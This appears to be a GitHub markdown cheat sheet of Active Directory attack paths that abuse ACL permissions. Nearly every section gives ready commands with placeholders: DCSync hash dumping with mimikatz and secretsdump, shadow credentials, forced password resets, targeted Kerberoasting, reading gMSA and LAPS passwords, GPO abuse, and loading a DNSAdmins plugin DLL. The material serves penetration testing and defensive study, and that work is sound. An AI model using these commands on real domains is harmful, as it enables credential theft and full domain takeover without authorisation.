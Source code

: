 # ACLs/ACEs permissions

## Dcsync >>> Domain Admin || Lateral move || Crack hash
- Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts
- `mimikatz lsadump::dcsync /domain:<target_domain> /user:<target_domain>\administrator`
- `secretsdump.py '<domain>'/'<user>':'<password>'@'<domain_controller>'`

## can change msDS-KeyCredentialLInk (Generic Write) + ADCS >>> PassTheCertificate
- Shadow Credentials
  - `certipy shadow auto '-u <user>@<domain>' -p <password> -account '<target_account>'`
  - `pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"`

## On Group
- GenericAll/GenericWrite/Self/Add Extended Rights
  - Add member to the group
- Write Owner
  - Grant Ownership
- WriteDACL + WriteOwner
  - Grant rights
    - Give yourself generic all

## On Computer
- GenericAll / GenericWrite
  - msDs-AllowedToActOnBehalf >>> RBCD
  - add Key Credentials >>> shadow credentials

## On User
- GenericAll / GenericWrite
  - Change password
    - `net user <user> <password> /domain` >>> User with clear text pass
  - add SPN (target kerberoasting)
    - `targetedKerberoast.py -d <domain> -u <user> -p <pass>` >>> Hash found (TGS)
  - add key credentials >>> shadow credentials
  - login script >>> Access
- ForceChangePassword
  - `net user <user> <password> /domain` >>> User with clear text pass

## On OU
- Write Dacl
  - ACE Inheritance
    - Grant rights
- GenericAll / GenericWrite / Manage Group Policy Links
  - `OUned.py --config config.ini`

## ReadGMSAPassword
- `gMSADumper.py -u '<user>' -p '<password>' -d '<domain>'`
- `nxc ldap <ip> -u <user> -p <pass> --gmsa`
- `ldeep ldap -u <user> -p <password> -d <domain> -s ldaps://<dc_ip> gmsa`

## Get LAPS passwords
- Who can read LAPS
  - `MATCH p=(g:Base)-[:ReadLAPSPassword]->(c:Computer) RETURN p`
- Read LAPS >>> Admin
  - `Get-LapsADPassword -DomainController <ip_dc> -Credential <domain>\<login> | Format-Table -AutoSize`
  - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> laps`
  - `foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}`
  - `nxc ldap <dc_ip> -d <domain> -u <user> -p <password> --module laps`
  - `msf> use post/windows/gather/credentials/enum_laps`

## GPO
- Who can control GPOs
  - `MATCH p=((n:Base)-[]->(gp:GPO)) RETURN p`
- SID of principals that can create new GPOs in the domain
  - `Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=blah,DC=com" -ResolveGUIDs  | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`
- Return the principals that can write to the GP-Link attribute on OUs
  - `Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl`
- Generic Write on  GPO
  - Abuse GPO >>> ACCESS

## DNS Admin
- DNSadmins abuse (CVE-2021-40469) @CVE@ >>> Admin
  - `dnscmd.exe /config /serverlevelplugindll <\\path\to\dll> # need a dnsadmin user`
  - `sc \\DNSServer stop dns sc \\DNSServer start dns`
